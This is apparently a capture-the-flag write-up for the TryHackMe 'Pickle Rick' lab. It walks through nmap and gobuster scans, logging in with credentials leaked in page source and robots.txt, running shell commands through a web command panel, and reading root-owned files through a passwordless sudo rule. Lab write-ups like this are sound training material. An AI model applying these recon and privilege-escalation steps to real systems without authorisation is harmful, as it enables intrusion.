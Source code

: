 link: https://tryhackme.com/room/picklerick

Difficulty: Easy

## Recon
Have to answer 3 questions:
- What is the first ingredient that Rick needs?
- What is the second ingredient in Rick’s potion?
- What is the last and final ingredient?

There is a hint hidden in the source code of the main webpage: `Username: R1ckRul3s`
## Scanning
What services are running on the target?
`nmap -sCV -v -oN tcp <IP>`
- Scan for service versions & default scripts, with verbose, output to file `tcp`

| Port   | Service               | Version       | Description                                        |
| ------ | --------------------- | ------------- | -------------------------------------------------- |
| 80/tcp | Apache httpd (Ubuntu) | 2.4.18        | Apache web server supporting GET HEAD POST OPTIONS |
| 22/tcp | ssh                   | OpenSSH 7.2p2 | SSH                                                |

What can we find out about the ssh running?
`nmap -sV --script="ssh*" -oN ssh-scripts-results <IP>`
- Only publickey auth is allowed

Running `gobuster` revealed:
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

- The assets directory just shows the images & bootstrap & JQuery js files
- The robots.txt contains the string: `Wubbalubbadubdub`

Running `nikto -h <IP>` revealed the existence of a `/login.php`

## Exploitation
Navigating to `/login.php` and entering the credentials we have found:
```
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

We are entered into a command panel. The command panel seems to use bash.

`ls` in the command panel gives:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

navigating to those files reveals the first ingredient.

Realising we can navigate up with `ls` we now have access to freely explore the file system.

Running `uname -a` give us some system details:
`Linux ip-10-10-224-157 4.4.0-1072-aws #82-Ubuntu SMP Fri Nov 2 15:00:21 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Searching in the `/home/rick` dir we find the second ingredient in a file that can be dumped with  the `less` as `cat` is disabled.

`cd ../../../; ls -al; pwd`

`less /etc/*-release`
```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.5 LTS"
NAME="Ubuntu"
VERSION="16.04.5 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.5 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Useful command to search for all files in home dir: `ls -alhR /home`

doing a `sudo -l` its revealed we can run any command without the requirement of a password:
```
Matching Defaults entries for www-data on ip-10-10-224-157.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-224-157.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

running an `sudo ls -alhR /root` reveals the final key in `/root/3rd.txt`